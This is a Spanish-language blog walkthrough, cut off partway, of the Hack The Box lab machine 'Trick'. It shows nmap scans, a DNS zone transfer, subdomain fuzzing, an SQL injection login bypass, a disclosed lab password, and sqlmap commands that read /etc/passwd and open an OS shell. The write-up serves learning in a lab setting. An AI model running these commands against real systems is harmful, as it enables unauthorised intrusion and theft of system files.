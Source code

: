 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Trick              |
| Os                     | Linux              |
| Difficulty             | Easy               |
| Points                 | 20                 |
| IP                     | 10.10.11.166       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Trick/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.129.38.26
```

![nmap 1](/assets/images/Trick/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.38.26 -oG allPorts
```

![nmap2](/assets/images/Trick/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,25,53,80 10.129.38.26 -oN targeted
```

![nmap3](/assets/images/Trick/nmap3.png)

Intentemos ver a donde mas se direccionan los paquetes con el dns del puerto 53 con el comando:

```s
sudo dig @10.129.71.116 trick.htb axfr
sudo dig @10.129.71.116 preprod-payroll.trick.htb axfr
sudo dig @10.129.71.116 root.trick.htb axfr
```

Hemos encontrado mas dominios potenciales, pero para que no se nos escape ninguno, agregaremos un filtrado con:

```s
sudo dig @10.129.71.116 trick.htb axfr | grep -oE '(\w+\.)?\w+\.htb' | sort -u | tr '\n' ' '
```

```s
sudo cat urls | feroxbuster --auto-tune --extract-links --random-agent --stdin --output trick.feroxbuster --threads 100 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```s
wfuzz -c --hc=404 --hw=55,83 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.trick.htb" http://10.129.71.116
```

Para el dominio preprod-payroll.trick.htb, hay un loggin page. El cual intentaremos cruzar con un SQLI con burpsuite de la siguiente forma:

![SQLI](/assets/images/Trick/SQLI.png)

Una vez dentro, tenemos acceso como administrador. Veamos que podemos encontrar aqui.
En el apartado de users, en la opcion de editar las configuraciones del usuario, la contrasena no es visible pero si inspeccionamos el codigo de la pagina, podremos verla.

![user password](/assets/images/Trick/user_psswd.png)

value="SuperGucciRainbowCake"

Sigamos enumerando informacion con sqlmap ahora.

Agregamos un usuario de prueba y lo interceptamos con burp. 

```s
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --username
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/hostname
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --file-read=/etc/passwd
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --current-user
sqlmap -r add-employee.req --batch --dbms mysql --threads 10 --os-shell
```

Una vez que tenemos el archivo etc/passwd, para filtrar los usuarios existentes podemos hacer un:

```s
cat _etc_passwd | grep sh$
```

![user password](/assets/images/Trick/)